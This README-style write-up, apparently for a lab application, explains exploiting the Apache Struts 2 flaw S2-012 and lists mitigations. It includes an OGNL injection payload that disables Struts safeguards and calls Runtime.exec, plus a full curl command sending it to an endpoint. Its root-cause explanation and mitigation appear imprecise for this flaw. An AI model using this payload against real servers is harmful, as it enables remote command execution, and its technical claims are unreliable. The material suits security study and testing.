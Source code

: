 # Exploiting S2-012 in the Current Application

## Overview
S2-012 is a vulnerability in Apache Struts 2 that allows attackers to execute arbitrary OGNL (Object-Graph Navigation Language) expressions. This vulnerability arises due to improper handling of user input in the `struts.xml` configuration file, particularly when dynamic method invocation is enabled.

## Steps to Exploit

1. **Identify the Vulnerable Endpoint**:
   - The vulnerable endpoint in this application is the AJAX handler `ajax/submitData`.
   - This endpoint is configured in `struts.xml` to process user input dynamically.

2. **Craft Malicious Input**:
   - An attacker can send a specially crafted request containing OGNL expressions in the `name` or `age` parameters.
   - Example payload:
     ```
     name=%{#context[\'xwork.MethodAccessor.denyMethodExecution\']=false,#_memberAccess[\'allowStaticMethodAccess\']=true,@java.lang.Runtime@getRuntime().exec('calc')}
     age=25
     ```

3. **Send the Exploit**:
   - Use a tool like `curl` or a browser extension to send the malicious payload to the vulnerable endpoint.
   - Example `curl` command:
     ```
     curl -X POST -d "name=%{#context['xwork.MethodAccessor.denyMethodExecution']=false,#_memberAccess['allowStaticMethodAccess']=true,@java.lang.Runtime@getRuntime().exec('calc')}" -d "age=25" http://<server-address>/ajax/submitData
     ```

4. **Observe the Result**:
   - If successful, the OGNL expression will be executed on the server, allowing the attacker to run arbitrary commands.

## Mitigation

To prevent exploitation of S2-012:

1. **Upgrade Struts**:
   - Update to the latest version of Apache Struts 2, where this vulnerability has been patched.

2. **Disable Dynamic Method Invocation**:
   - In `struts.xml`, set `struts.enable.DynamicMethodInvocation` to `false`.

3. **Validate User Input**:
   - Use input validation to ensure that only expected data is processed by the application.

4. **Use Security Plugins**:
   - Employ security plugins or WAF (Web Application Firewall) to detect and block malicious requests.

## Disclaimer
This README is for educational purposes only. Exploiting vulnerabilities without proper authorization is illegal and unethical.